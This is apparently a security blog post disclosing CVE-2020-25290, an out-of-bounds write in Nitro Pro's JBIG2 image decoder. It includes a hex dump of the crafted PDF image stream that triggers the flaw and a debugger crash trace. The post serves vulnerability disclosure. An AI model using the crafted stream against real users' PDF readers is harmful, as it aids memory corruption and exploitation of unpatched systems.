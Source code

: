 ```yaml
---
layout: post
title:  "CVE-2020-25290 - Nitro Pro PDF JBIG2 Image Decoders Out-of-Bounds Write Vulnerability"
date:   2020-09-18 21:00:00 +0800
categories: [security, oob]
---
```


Overview
-----------
Nitro Software, Inc. develops commercial software used to create, edit, sign, and secure Portable Document Format files and digital documents. The company has over 650,000 business customers worldwide, and claims millions of users across the globe.

Vulnerability Description
-------------------------
An exploitable out-of-bounds write vulnerability exists in the handling of JBIG2 image decoders of object stream attributes of Nitro Pro PDF Reader version 13.19.2.356. A specially crafted PDF document can trigger an out-of-bounds write, which can disclose sensitive memory content or even write and aid in exploitation when coupled with another vulnerability. An attacker needs to trick the user to open the malicious file to trigger this vulnerability. If the browser plugin extension is enabled, visiting a malicious site can also trigger the vulnerability.

Vulnerability Analysis
----------------------
The out-of-bounds issue exists when JBIG2 fails to handle image decoders of object stream attributes. This happened when it tries to process the following example image stream embedded in PDF. Nitro Pro PDF rely on JBIG2 library to handle images.
```
00000150  20 30 20 6F 62 6A 0A 3C 3C 20 2F 44 65 63 6F 64   0 obj.<< /Decod
00000160  65 50 61 72 6D 73 20 20 3C 3C 20 2F 4A 42 49 47  eParms  << /JBIG
00000170  32 47 6C 6F 62 61 6C 73 20 34 20 30 20 52 20 3E  2Globals 4 0 R >
00000180  3E 0A 2F 57 69 64 74 68 20 33 32 0A 2F 43 6F 6C  >./Width 32./Col
00000190  6F 72 53 70 61 63 65 20 2F 44 65 76 69 63 65 47  orSpace /DeviceG
000001A0  72 61 79 0A 2F 48 65 69 67 68 74 20 33 32 0A 2F  ray./Height 32./
000001B0  46 69 6C 74 65 72 20 2F 4A 42 49 47 32 44 65 63  Filter /JBIG2Dec
000001C0  6F 64 65 0A 2F 53 75 62 74 79 70 65 20 2F 49 6D  ode./Subtype /Im
000001D0  61 67 65 0A 2F 4C 65 6E 67 74 68 20 37 36 0A 2F  age./Length 76./
000001E0  54 79 70 65 20 2F 58 4F 62 6A 65 63 74 0A 2F 42  Type /XObject./B
000001F0  69 74 73 50 65 72 43 6F 6D 70 6F 6E 65 6E 74 20  itsPerComponent 
00000200  31 0A 3E 3E 0A 73 74 72 65 61 6D 0A 00 00 00 01  1.>>.stream.....
00000210  30 00 01 00 00 00 13 00 00 00 20 00 00 00 20 00  0......... ... .
00000220  00 00 47 00 00 00 47 00 00 00 00 00 00 02 06 22  ..G...G........"
00000230  00 01 00 00 00 22 00 00 00 20 00 00 00 20 00 00  ....."... ... ..
00000240  00 00 00 00 00 00 00 00 00 00 00 00 04 9E E8 54  .............žèT
00000250  EC DF EB 09 4E 93 41 AC 0A 65 6E 64 73 74 72 65  ìßë.N“A¬.endstre
00000260  61 6D 0A 65 6E 64 6F 62 6A 0A 0A 36 20 30 20 6F  am.endobj..6 0 o
```

An access violation occured when parsing the PDF:
```
(90b4.8ba0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
npdf!CAPContent::Wrap+0xa041d:
00007ffc`303486fd 204c28ff        and     byte ptr [rax+rbp-1],cl ds:ffffffff`ffffffff=??

0:000>r
rax=0000000000000000 rbx=0000025593320d10 rcx=00000000000000ff
rdx=00007ff81ea90460 rsi=0000005894ff7c50 rdi=0000000000000000
rip=00007ff81e73c17d rsp=0000005894ff7b60 rbp=0000000000000000
 r8=0000000000000000  r9=0000005894ff7b70 r10=0000000000000000
r11=0000000000000000 r12=0000000000000000 r13=000000000000003d
r14=0000000000000000 r15=00000000000000ff
```